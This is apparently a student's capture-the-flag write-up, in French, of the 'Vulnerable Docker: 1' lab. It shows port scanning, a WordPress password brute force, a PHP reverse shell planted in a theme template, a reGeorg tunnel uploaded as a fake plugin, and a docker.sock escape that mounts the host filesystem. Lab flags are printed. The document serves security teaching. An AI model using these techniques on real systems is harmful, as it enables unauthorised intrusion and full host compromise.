# Vulnerable Docker: 1

Nom: Lambert

Prenom: Lenny

Thème : 

- Port scanning
- webapp attacks
- Transfert de port
- pivoting (docker)
- exploitation

Groupe: Y1

Difficulté: easy 🟢

Diffculté: Hard 🔴

Outils: 

- https://www.kali.org/tools/netdiscover/
- https://www.kali.org/tools/nmap/
- https://www.kali.org/tools/wpscan/
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://excalidraw.com/mon-schema#json=8ZFw9mvc1Ze-HzG5BnrOG,1fjAGl0P9Y39ytEeAlca7g
- https://github.com/sensepost/reGeorg

## Etape 1 : Net Discover

Utilisation de l’outils  *netdiscover*   ( https://www.kali.org/tools/netdiscover/ )  pour pouvoir récupérer l’adresse ip de la machine cible.



## Etape 2 : Scan de port sur la machine cible

Je vais utiliser maintenant l’outils *nmap*   ( https://www.kali.org/tools/nmap/ ) qui me permettre de lister les ports ouverts mais aussi les version de certains protocoles qui pourront m’aider a trouver certaine vulnérabilité.

Je vais utiliser cette commande nmap

```bash
sudo nmap -sV -sC -O -T5 -p- -oN discover.txt 192.168.56.104

# -sV  -> Récupère la version des service
# -sC  -> Utilise les script nmap nse (utiliser pour decter des vulnérabilité sur les 
					ports)
# -O   -> Détection de l'os
# -p-  -> Test tous les ports
# -oN  -> Ecris le résultat dans output.txt
```
  

! le port 2375 est ouvert que pour le mode esay ! 


→ Pour Résumer:

| Port | Service | Description | Status | Détails |
| --- | --- | --- | --- | --- |
| 22 | ssh | OpenSSH | Open |  |
| 8000 | http | Apache httpd | Open | On peux remarqué que wordpress est utilisé |
| 2375 | dockerd | Api Docker | Open | daemon Docker (only easy ) |

<aside>
⚠️

### Le port 2375:

- **Rôle:**
    - Docker expose une API appelée *Docker Remote API* qui permet de contôler le daemon Docker a **DISTANCE**
- **Protocole:**
    - Fonctionne avec TCP
- **Risque spécifique:**
    - Un attaquant qui accède à ce port peut envoyer des commandes Docker via l’api pour récupéré des informations sur se que fait tourner le service docker de l’hôte
</aside>

---

## Etape 3 : Docker Recon (Optionnel → Mode easy)

Je vais donc utilisé cette API Docker pour pouvoir récupérer des information sur le docker ( on peut récupéré le flag final avec cette commande `docker -H tcp://192.168.56.104:2375 run --rm -it -v /:/host wordpress chroot /host bash`  que pour le mode easy mais je l’utilise ce port pour comprendre toute l’infra Docker qui tourne )

```bash
┌──(kali㉿kali)-[~]
└─$ docker -H tcp://192.168.56.104:2375 image ls

```

<aside>
💡

-H / - -host    →  Spécifie l’hôte où le client docker doit se connecter

tcp://192.168.56.104:2375  →  Définie l’@IP de l’hôte avec le n° de port

image ls   →  Commande Docker qui liste les images disponible sur l’hôte

</aside>

→ Résultat:

| REPOSITORY | TAG | IMAGE ID | COMMENTAIRE |
| --- | --- | --- | --- |
| wordpress | latest | c4260b289fc7 | Hébèrege un service wordpress, lié avec le port 8000 apache ouvert  |
| mysql | 5.7 | c73c7527c03a |  |
| jeroenpeeters/docker-ssh | latest | 7d3ecb48134e | Cette syntaxt de réposite est  liée a un conteneur sur **DockerHub** |

→ Recherche sur DockerHub

L'image montre la page Docker Hub du projet jeroenpeeters/docker-ssh. C'est un serveur SSH conçu pour les conteneurs Docker qui permet d'accéder facilement aux conteneurs via SSH



Command qui liste les conteneur de l’hôte

```bash
┌──(kali㉿kali)-[~]
└─$ docker -H tcp://192.168.56.104:2375 ps -a
CONTAINER ID   IMAGE                      COMMAND                      PORTS                  NAMES
8f4bca8ef241   wordpress:latest           "docker-entrypoint.s…"       0.0.0.0:8000->80/tcp   content_wordpress_1
13f0a3bb2706   mysql:5.7                  "docker-entrypoint.s…"       3306/tcp               content_db_1
b90babce1037   jeroenpeeters/docker-ssh   "npm start"                  22/tcp, 8022/tcp       content_ssh_1
```

La commande `docker -H tcp://192.168.56.104:2375 network ls` liste les réseaux Docker disponibles sur un hôte distant. Le résultat montre quatre réseaux :

1. **bridge** : Réseau par défaut pour les conteneurs Docker, utilisant le pilote `bridge`, isolé au niveau local.
2. **content_default** : Réseau personnalisé créé, probablement par Docker Compose, avec le pilote `bridge`, limité à l'hôte local.
3. **host** : Réseau où les conteneurs partagent l'interface réseau de l'hôte, offrant des performances maximales.
4. **none** : Réseau isolé sans connectivité, utilisé pour des conteneurs nécessitant une isolation complète.

### Inspecte le réseaux content_default

```bash
$ docker -H tcp://192.168.56.104:2375 network inspect content_default

```

| Nom | Adresse IPv4 |
| --- | --- |
| content_db_1 | 172.18.0.2/16 |
| content_wordpress_1 | 172.18.0.3/16 |
| content_ssh_1 | 172.18.0.4/16 |

Adresse IP en local Docker

### Schéma détailler sur le fonctionnement du système docker de la cible et du fonctionnement de docker en générale



---

## Etape  3 :Scan wpscan sur le service wordpress

```bash
wpscan  --url http://192.168.56.104:8000 -e u,p

```

 -e  :    

- u  → Énumère les utilisateurs WordPress
- p  → Enumère les plugins installés pour vérifier leur présence et détecter ceux qui pourraient être vulnérable



<aside>
⚠️

Wpscan nous trouve un utilisateur = bob

 prochaine étape: wpscan peut aussi brute force les mots de passe d’utilisateur définie

</aside>

```bash
wpscan --url http://192.168.56.104:8000 -U bob -P /usr/share/wordlist/rockyou.txt
```



Et nous obtenons le login /mdp 

<aside>
⚠️

bob / Welcom1

</aside>

Nous voila sur la page admin du WordPress et nous obtenons nôtre premier flag ( easy )

flag_1{2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998}


## Etape 5 : Injecter une backdoor dans le wordpress

Pour sa nous allons modifier le code  <? php ?>  dans la sidebarre →Appearance→Editor→404Template par une un reverse shell php file qu’on récupère sur github 


Nous avons plus qu’a écouter sur le port 4444 et lance la page où est upload le reverse shell

[http://192.168.56.104:8000/wp-content/themes/twentyseventeen/404.php](http://192.168.56.104:8000/wp-content/themes/twentyseventeen/404.php)



On récupère donc un shell avec le compte **www-data** qui est un compte dedié  aux serveur web et qui a des droits limité

<aside>
⚠️

$ hostname
8f4bca8ef241

On récupère bien l’identifiant de la partie recon Docker

</aside>

Dans le fichier de config   /var/www/html/wp-config.php  on peux retrouver le nom d’utilisateur et le mot de passe d’un utilisateur



Au final on retrouve rien d’intéressant sur le conteneur wordpress ( le shell est utile si on utilise protfwd avec metasploit ) 

---

## Etape 4 : Tunneling and cross protocole

1. Récupéré le projet Regeorg sur github
    1.  
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ git clone https://github.com/sensepost/reGeorg.git
    
    ```
    
2. Prépare la charge utile 
    1. Création d’un fichier d’en-tête WordPress
    
    ```bash
    ─$ cat <<-'EOF' >tunnel/head.php
    <?php
    /*
    * Plugin Name: tunnel
    * Version: 1.0.00
    * Author: Anonymous
    * Author URI: http://anonymous.com
    * License: GPL2
    */
    ?>
    
    EOF
    
    $ cat tunnel/tunnel.php >> tunnel/head.php
    $ mv tunnel/head.php tunnel.php
    $ zip -r -9 tunnel.zip tunnel
    
    ```
    

1.  On ajoute notre charge en tant que plugin wordpress





Le script nous dis qu’il est bien fonctionnel

1.  Lancer le script regeorg et activation du proxy local
    1. 
    
    ```bash
    python2 /home/kali/reGeorg/reGeorgSocksProxy.py -l 127.0.0.1 -p 8087 -u http://192.168.56.104:8000/wp-content/plugins/tunnel/tunnel.php -v DEBUG
    
    ```
    

1.  Etape 1:
    
    Générer une trame ssh avec comme IP Dest celle du conteneur cible qui nous est pas accessible de base, et l’envoyer a nôtre proxy qui est lier a nôtre tunnel.php
    

Etape 2 :

Le protocole SOCKS 5 que utilise le script Regeorg encapsule le paquet ssh précédant par SOCKS 5

Etape 3 :

Le script Regeorg envoie une requête HTTP POST a tunnel.php avec les donnée SOCKS 5 a l’intérieur donc sont encore encapsuler par HTTP

Etape 4 :

Le plugin tunnel.php qui est sur le serveur désencapsule le paquet HTTP et exécutes les instruction SOCK 5 se qui crée une connexion avec la cible et transfère ensuite les données encapsulées à travers cette connexion.

Etape 5  :

Le plugin agit agit aussi comme un proxy:

-Il lit les réponses provenant de la cible

-Il réencapsule ces réponses dans un format SOCKS 5

-Il les renvoie via HTTP au proxy côté de l’attaquant 

 



---

## Activation Regeorg

`python2 /home/kali/reGeorg/reGeorgSocksProxy.py -l 127.0.0.1 -p 8087 -u [http://192.168.1.15:8000/wp-content/plugins/tunnel/tunnel.php](http://192.168.1.15:8000/wp-content/plugins/tunnel/tunnel.php) -v DEBUG`

### Nous voila enfin connecter en ssh sur un autre conteneur non accessible


---

## Escalade de privilège Docker

<aside>
💡

On peut remarquer que se conteneur a accès a  /var/run/docker.sock  qui est utilisé pour communiquer avec l’API Docker donc peut interagir avec le démon Docker de l’host.

→ Le mode easy permet de communiquer directement avec cette API 

</aside>

- L’objectif maintenant est d’installer le client docker sur le conteneur pour pouvoir exécuter des commande docker via l’API

- Sachant que scp est désactiver j’installe netcat et wget sur le conteneur
    - 
    
    ```bash
    apt-get update
    apt-get install netcat
    apt-get install wget
    ```
    
- J’installe aussi le client docker sur ma machine et je la zip
    - 
    
    ```bash
    mkdir docker_deb/
    cd docker_deb/
    apt download docker-ce
    apt depends -i docker-ce | awk '{print $2}' | xargs apt download
    tar cvzf ../docker.tar.gz .
    ```
    
- J’ouvre un server web avec python sur ma machine et je récupère le zip sur le conteneur
    - 
        
        
        
- Je dézip docker.tar.gz
    - 
    
    ```bash
    tar xvzf docker.tar.gz
    dpkg -i *.deb
    
    ```
    

On peut enfin utiliser une commande docker qui permet de prendre le contrôle totale de l’hôte via un conteneur 

Principe:

- Exécuter une commande docker a distance via l’API Docker
- Lancer un nouveau conteneur via une image existante
- Montage du système de fichiers: monte le système de fichier racine de l’hôte dans ce nouveau conteneur
- Prendre le contrôle totale de ce conteneur et donc a tous les fichier de l’hôte

```bash
docker -H unix:///var/run/docker.sock run --rm  -it -v /:/host wordpress chroot /host bash

```

<aside>
💡

1. docker -H unix:///var/run/docker.sock
    1. docker :  ligne de commande pour interagir avec Docker
    2. -H unix:///var/run/docker.sock  :  Spécifique le socket Unix a utiliser pour communiquer avec le démon Docker 
2. run
    1. Lance un nouveau conteneur a partir de l’image qui est utiliser pour le wordpress
3. - -rm   
    1. Supprime automatiquement le conteneur une fois qu’il s’arrête
4. -it
    1. -i   :  Interactif
    2. -t   :  Alloue un pseudo terminal pour qu’on puisse interagir avec le conteneur
5. -v /:/host
    1. Mount le système de fichier (/) de l’hôte dans le conteneur sous le chemin /host
6. wordpress
    1. précise l’image a utiliser
7. chroot /host bash
    1. chroot  :  Change Root Directory. Change le répertoire racine pour /host 
    2. bash      :  Ouvre un shell interactif dans cet environnement 
</aside>

Et on obtiens le flag en hard {d867a73c70770e73b65e6949dd074285dfdee80a8db333a7528390f6}


